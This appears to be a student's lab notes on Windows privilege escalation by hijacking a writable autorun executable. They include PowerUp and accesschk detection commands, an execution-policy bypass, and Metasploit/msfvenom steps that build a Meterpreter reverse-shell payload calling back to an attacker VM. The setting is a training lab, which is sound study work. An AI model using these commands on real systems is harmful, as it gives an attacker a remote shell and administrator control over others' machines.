**Detection**

Note - investigate use of powerup

NOTE - if you can get powerup on the system

in command (within the location of powerup)
```
powershell -ep bypass

..\Powerup.ps1

Invoke--AllChecks
```

Think winpeas


Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`  
2. In Autoruns, click on the ‘Logon’ tab.  
3. From the listed results, notice that then "My Program” entry is pointing to `“C:\Program Files\Autorun Program\program.exe".  

![[Pasted image 20230606101047.png]]

5. In command prompt type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`  
6.  `-wvu`  The w = only show items with write access, v = verbose, u = ignore/suppress errors
7. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.

![[Pasted image 20230606101304.png]]

  

**Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole  
2. In Metasploit (msf > prompt) type: `use multi/handler  
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp  
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]  
5. In Metasploit (msf > prompt) type: `run  
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe  
7. Copy the generated file, program.exe, to the Windows VM.

Windows VM

1. Place program.exe in `C:\Program Files\Autorun Program  
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM

1. Wait for a new session to open in Metasploit. 
3. In Metasploit (msf > prompt) type: `sessions -i [Session ID]  
4. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid
